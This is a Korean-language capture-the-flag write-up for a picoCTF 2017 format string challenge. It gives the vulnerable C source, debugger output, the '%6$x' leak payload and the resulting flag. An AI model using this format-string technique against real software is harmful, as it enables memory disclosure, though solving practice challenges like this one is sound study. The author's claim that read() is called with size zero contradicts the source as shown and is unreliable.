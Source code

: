 `#FSB`
# 목차
1. [Description](#description)
2. [분석](#분석)
	1. [목표 확인](#목표-확인)
	2. [취약점 확인 (FSB)](#취약점-분석-fsb)
3. [공격 루틴](#공격-루틴)
	1. [secret 은 몇번째인지](#secret-은-몇번째인지)
4. [Flag](#flag)
## Description
> 바이너리 [secret](https://webshell2017.picoctf.com/static/2d756322664bc048224f02ad0a62a0bc/secret) 랑 [소스코드](https://webshell2017.picoctf.com/static/2d756322664bc048224f02ad0a62a0bc/secret.c)가 주어진다.  
> nc  shell2017.picoctf.com 55189  
  
```
     1  #include <stdio.h>
     2  #include <fcntl.h>
     3  #include <unistd.h>
     4  #include <stdlib.h>
     5
     6  #define BUF_LEN 64
     7  char buffer[BUF_LEN];
     8
     9  int main(int argc, char** argv) {
    10      int fd = open("/dev/urandom", O_RDONLY);
    11      if(fd == -1){
    12          puts("Open error on /dev/urandom. Contact an admin\n");
    13          return -1;
    14      }
    15      int secret;
    16      if(read(fd, &secret, sizeof(int)) != sizeof(int)){
    17          puts("Read error. Contact admin!\n");
    18          return -1;
    19      }
    20      close(fd);
    21      printf("Give me something to say!\n");
    22      fflush(stdout);
    23      fgets(buffer, BUF_LEN, stdin);
    24      printf(buffer);
    25
    26      int not_secret;
    27      printf("Now tell my secret in hex! Secret: ");
    28      fflush(stdout);
    29      scanf("%x", &not_secret);
    30      if(secret == not_secret){
    31          puts("Wow, you got it!");
    32          system("cat ./flag.txt");
    33      }else{
    34          puts("As my friend says,\"You get nothing! You lose! Good day, Sir!\"");
    35      }
    36
    37      return 0;
    38  }
```
## 분석
### 목표 확인
```
    30      if(secret == not_secret){
    31          puts("Wow, you got it!");
    32          system("cat ./flag.txt");
    33      }
```
secret 과 not_secret 이 같아야 키값을 얻을 수 있습니다.  

```
    15      int secret;
```
secret 은 무엇이냐면  
정수형 변수이고  

```
    16      if(read(fd, &secret, sizeof(int)) != sizeof(int)){
    17          puts("Read error. Contact admin!\n");
    18          return -1;
    19      }
```
fd 라는 파일디스크립터로부터 읽어들입니다.  
그런데 read 의 매개변수 중  
세번째에 들어가는 값은 False.  
즉, size=0  
  
한마디로 한 바이트도 읽어들이지 않고  
또 초기화되지 않았으므로  
secret 에 저장되는 값은 쓰레기값 되시겠다.  
  
__if문의 조건문은 항상 False(0) 이니깐  
admin에게 연락할 일 없겠군요__  

```
    26      int not_secret;
    27      printf("Now tell my secret in hex! Secret: ");
    28      fflush(stdout);
    29      scanf("%x", &not_secret);
```
not_secret 은  
29번째 줄에서  
16진수 소문자로  
입력받는다.  

### 취약점 분석 (FSB)
```
    24      printf(buffer);
```
24번째 줄을  보면  
포맷 스트링 버그가 보입니다.  
그럼 buffer 는 어디에서 받느냐!  

```
    23      fgets(buffer, BUF_LEN, stdin);
```
fgets 에서 입력받는다.  
딱 BUF_LEN 만큼 받는데  

```
     6  #define BUF_LEN 64
```
그 크기는 64 이다.  

## 공격 루틴
아하!  
secret 에 쓰레기값이 저장되고  
24번째 줄에서 FSB로 secret 을 leak 하고  
29번째 줄에서 not_secret 에 값을 입력하면 되는구나!  

### secret 은 몇번째인지
FSB 를 사용하려면 secret 이 몇번째인지 알아야한다.  

```
# file ./secret
./secret: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=25d674d62f2f6070f9f87664bbd5b6aa5c045ef0, not stripped
```
일단 32비트 바이너리이고  

```
   0x08048636 <+75>:    lea    eax,[ebp-0x10]
   0x08048639 <+78>:    push   eax
   0x0804863a <+79>:    push   DWORD PTR [ebp-0xc]
   0x0804863d <+82>:    call   0x8048440 <read@plt>
```
32비트 바이너리는 제일 마지막에 push 되는 데이터가 첫번째 매개변수이다.  
main+75 를 보면 ebp-0x10 이 secret 이다.  

```
pwndbg> stack
00:0000│ esp  0xffffd220 —▸ 0x8049b40 (buffer) ◂— 0x70257025 ('%p%p')
01:0004│      0xffffd224 ◂— 0x40 /* '@' */
02:0008│      0xffffd228 —▸ 0xf7f9b5c0 (_IO_2_1_stdin_) ◂— 0xfbad2288
03:000c│      0xffffd22c —▸ 0x8048792 (__libc_csu_init+82) ◂— add    edi, 1
04:0010│      0xffffd230 ◂— 0x1
05:0014│      0xffffd234 —▸ 0xffffd2f4 —▸ 0xffffd445 ◂— 0x746e6d2f ('/mnt')
06:0018│      0xffffd238 ◂— 0x11aad860
07:001c│      0xffffd23c ◂— 0x3
08:0020│      0xffffd240 —▸ 0xf7fe59a0 ◂— push   ebp
09:0024│      0xffffd244 —▸ 0xffffd260 ◂— 0x1
0a:0028│ ebp  0xffffd248 ◂— 0x0
```
```
pwndbg> x/wx $ebp-0x10
0xffffd238:     0x11aad860
```
비교해보니 6번째라는 것을 알았다.  

## Flag
```
# nc shell2017.picoctf.com 55189
Give me something to say!
%6$x
a6aa3c3a
Now tell my secret in hex! Secret: a6aa3c3a
a18450ba7aaa8c085c522cdef6ab35ab
Wow, you got it!
```
